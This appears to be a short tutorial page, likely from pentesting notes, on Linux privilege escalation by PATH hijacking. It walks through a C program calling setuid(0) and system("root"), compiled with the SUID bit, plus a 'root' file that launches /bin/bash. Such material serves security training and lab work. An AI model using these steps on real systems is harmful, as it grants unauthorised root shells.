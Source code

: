 ***

* Add folder to _PATH_ and go to this location

{% code overflow="wrap" lineNumbers="true" %}
```bash
export PATH=/home/user:$PATH
echo $PATH   #To check it was added
cd /home/user
```
{% endcode %}

***

* Write a simple script in C to search for an executable

{% code title="path.c " overflow="wrap" lineNumbers="true" %}
```c
#include <unistd.h>

void main() {
    setgid(0);
    setuid(0);
    system("root");
}
```
{% endcode %}

{% hint style="info" %}
The system will search for an executable called _root,_ which is an arbitrary name
{% endhint %}

***

* Compile the script and give it SUID permissions

{% code overflow="wrap" lineNumbers="true" %}
```bash
gcc path.c -o path -w
chmod u+s path
ls -l     #To check if it has a permission on user
```
{% endcode %}

***

* Create a file to ask for a shell and give it permissions

{% code overflow="wrap" lineNumbers="true" %}
```bash
echo "/bin/bash" > root #Asking for a shell
chmod 777 root
ls -l    #To check it has all permissions
```
{% endcode %}

{% hint style="info" %}
Note that is the same executable we called previously on the _C_ script
{% endhint %}
